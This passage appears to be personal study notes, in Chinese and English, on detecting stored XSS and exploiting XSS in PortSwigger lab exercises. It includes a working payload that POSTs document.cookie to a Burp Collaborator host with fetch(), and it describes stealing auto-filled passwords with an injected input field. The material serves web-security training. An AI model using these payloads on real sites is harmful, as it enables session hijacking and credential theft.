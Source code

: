 - 提交到任何入口点的数据原则上可以从任何出口点发出

- 由于在应用程序中执行的其他操作，当前存储的数据通常容易被覆盖

更现实的方法是通过数据输入点系统地工作，向每个输入点提交一个特定值，并监控应用程序的响应，以检测提交值出现的情况。

当您在应用程序的处理过程中识别出入口点和出口点之间的链接时，需要对每个链接进行专门测试，以检测是否存在存储的XSS漏洞

确定上下文并测试合适的候选XSS有效负载。此时，测试方法与查找反映的XSS漏洞大致相同。

# Exploiting xss vulnerabilities

You might notice some people using **alert(document.domain)**. This is a way of making it explicit which domain the JavaScript is executing on.

## Exploiting by steal cookies

Stealing cookies is a traditional way to exploit XSS

可以把cookie放到自己浏览器冒充用户

significant limitations:

- victim might not be logged in.

- Many applications hide their cookies from JavaScript using the **HttpOnly** flag.（如果cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookie信息）
- 会话可能会锁定到其他因素，如用户的IP地址
- session过期

lab：

```html
<script>
fetch('https://rxs3zmqnjibjkkjw988q1z1s9jfa3z.burpcollaborator.net',{
method:'POST',
body:document.cookie        
});
</script>

reminds:
https://xxx',{
```

（cookie不用包裹‘’）

或者，您可以通过 [exploiting the XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)来调整攻击，使受害者在博客评论中发布他们的会话cookie。然而会公开了cookie和攻击的证据。

## Exploiting cross-site scripting to capture passwords

These days, many users have password managers that auto-fill their passwords. 

You can take advantage of this by **creating a password input**, **reading out the auto-filled password**, and sending it to your own domain

The primary disadvantage of this technique is that it only works on users who have a password manager that performs password auto-fill
